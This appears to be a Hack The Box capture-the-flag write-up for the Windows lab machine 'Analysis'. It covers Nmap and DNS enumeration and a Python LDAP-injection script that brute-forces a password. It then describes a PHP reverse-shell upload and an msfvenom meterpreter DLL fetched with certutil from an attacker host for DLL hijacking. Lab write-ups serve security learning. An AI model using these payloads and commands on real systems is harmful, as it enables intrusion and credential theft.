

# Analysis Writeup
<figure></figure>

Nmap Scan: 
```
┌──(kali㉿kali)-[~/Desktop/htb/analysis]
└─$ nmap -sC -sV -vv 10.10.11.250  
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack Simple DNS Plus
80/tcp   open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-01-25 03:30:21Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
3306/tcp open  mysql         syn-ack MySQL (unauthorized)
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7365/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44263/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 9653/udp): CLEAN (Timeout)
|   Check 4 (port 58425/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2024-01-25T03:30:34
|_  start_date: N/A
```

Trying to Find some subdomains of `analysis.htb`.

```
┌──(kali㉿kali)-[~/Desktop/htb/analysis]
└─$ gobuster dns -d analysis.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r 10.10.11.250:53
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     analysis.htb
[+] Threads:    10
[+] Resolver:   10.10.11.250:53
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.analysis.htb

Found: internal.analysis.htb

Found: gc._msdcs.analysis.htb

Found: domaindnszones.analysis.htb

Found: forestdnszones.analysis.htb

Progress: 5071 / 19967 (25.40%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 5084 / 19967 (25.46%)
===============================================================
Finished
===============================================================
```

There wa snothing in the current directory. So, let's try to find some other directories.
<figure></figure>

After bruteforcing, Found these endpoints.
<figure></figure>

Found a login page at `/employees/login.php`.
<figure></figure>

And with /users, there is a list.php that show us a information table which based on user parameter.
<figure></figure>

Found out that LDAP Injection is possible in the name parameter. I wrote a python script to bruteforce the password.

```
import argparse
import requests
import urllib.parse

def main():
    charset_path = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    found_chars = ""
    skip_count = 6
    add_star = True
    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)
            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue
            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue
            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)
            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)
if __name__ == "__main__":
    main()
```

<figure></figure>

I was able to login to the dashboard using that credential as `technician`.

<figure></figure>

## SVC_OWNER.

We can get the `svc_owner` by doing the following steps.

```
Dashboard -> SOC Report -> Upload PHP Reverse Shell
```

Once the shell is uploaded go to the URL.

```
http://internal.analysis.htb/dashboard/uploads/<filename>.php
```

<figure></figure>

I also enumerated for the users.

<figure></figure>

After trying to enumerate the settings and default configurations. I found the default logon password.

<figure></figure>

We are able to login to the user using `evil-winrm` to the jdoe user.

And we have found the User Flag.

<figure></figure>

## Root Flag

Upon exploring a little more, I found snort is in the machine. Thrugh snort I can perform dll hijacking.

So i mnake a payload with `msfvenom`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=10.10.16.3 LPORT=4444 > sf_engine.dll
```

Then upload it to the machine using `certutil.exe`.

```
certutil.exe -urlcache -split -f http://10.10.16.3/sf_engine.dll sf_engine.dll
```

After waiting for a few minutes I get a reverse connection in my msfconsole shell.

```
$ msfconsole

$ use exploit/multi/handler 

$ set payload windows/x64/meterpreter/reverse_tcp

$ set lhost tun0

$ set lport 4444
```

And the machine is rooted.

Thank you !!! Happy Hacking :D